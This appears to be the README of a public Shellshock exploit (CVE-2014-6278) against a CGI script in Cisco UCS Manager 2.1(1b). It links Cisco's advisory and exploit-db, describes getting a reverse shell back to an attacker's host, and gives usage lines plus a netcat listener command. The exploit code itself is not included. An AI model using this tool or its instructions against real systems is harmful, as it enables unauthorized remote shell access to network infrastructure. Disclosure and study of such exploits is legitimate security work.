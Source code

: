 -Cisco UCS Manager 2.1(1b) Shellshock Exploit
-CVE-2014-6278
-Confirmed on version 2.1(1b), but more are likely vulnerable.
-Cisco's advisory: https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20140926-bash
-Exploit generates a reverse shell to a nc listener.
-Exploit Author: @thatchriseckert

Exploit goes after a specific cgi script in Cisco UCS manager to create a reverse shell back to the ip/port specified.

Also posted on edb:  https://www.exploit-db.com/exploits/39568/

Usage -

[*] Usage: <Victim IP> <Attacking Host> <Reverse Shell Port>
[*] Example: shellshock.py 127.0.0.1 127.0.0.1 4444
[*] Listener: nc -lvp <port>



